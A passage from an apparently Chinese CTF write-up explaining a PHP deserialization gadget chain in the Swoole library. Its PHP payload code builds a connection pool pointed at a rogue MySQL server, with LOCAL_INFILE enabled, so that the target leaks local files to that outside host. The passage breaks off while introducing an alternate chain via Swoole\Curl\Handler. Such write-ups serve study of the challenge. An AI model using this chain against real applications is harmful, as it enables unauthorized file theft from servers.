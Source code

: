 需要用到PDOPool这个类然后调用PDOPool::get()完成连接

所以有一个基本的想法是直接去序列化PDOPool::get然后反序列化就可以了

```php
 $a = new \Swoole\Database\PDOPool((new \Swoole\Database\PDOConfig)
        ->withHost('123.57.240.205')
        ->withPort(3307)
        ->withDbName('test')
        ->withCharset('utf8mb4')
        ->withUsername('root')
        ->withPassword('root')
        ->withOptions([
             \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
             \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
        ])
    );
  echo serialize([$a,'get']);
```

但是在swoole环境下会报错

```php
PHP Fatal error: Uncaught Exception: Serialization of 'Swoole\Coroutine\Channel' is not allowed in
```

这里错误的原因在于

``PDOPool``继承了``ConnectionPool``，在``ConnectionPool``中找到``$pool``，类型为``Channel``，但是在Swoole4.3.0后的版本后已经将Channel这个类的序列化给移除了，所以可以用``SplDoublyLinkedList()``来替代``$pool``

那么后面直接用反射把 `$pool` 对象中的 `$pool` 成员给替换成 `new \SplDoublyLinkedList()` 就行了

也就是对应的官方writeup中的

```php
$c = new \Swoole\Database\PDOConfig();
$c->withHost('ip');    // your rouge-mysql-server host & port
$c->withPort(3307);
$c->withOptions([
    \PDO::MYSQL_ATTR_LOCAL_INFILE => 1,
    \PDO::MYSQL_ATTR_INIT_COMMAND => 'select 1'
]);

$a = new \Swoole\ConnectionPool(function () { }, 0, '');
changeProperty($a, 'size', 100);
changeProperty($a, 'constructor', $c);
changeProperty($a, 'num', 0);
changeProperty($a, 'pool', new \SplDoublyLinkedList());
changeProperty($a, 'proxy', '\\Swoole\\Database\\PDOPool');
```

然后还看到了一个非预期解

因为前面说了php数组的invoke，所以应该还有其他方法。首先是官方库里封装的一个类 [Swoole\Curl\Handler](https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php)

注意方法``execute``
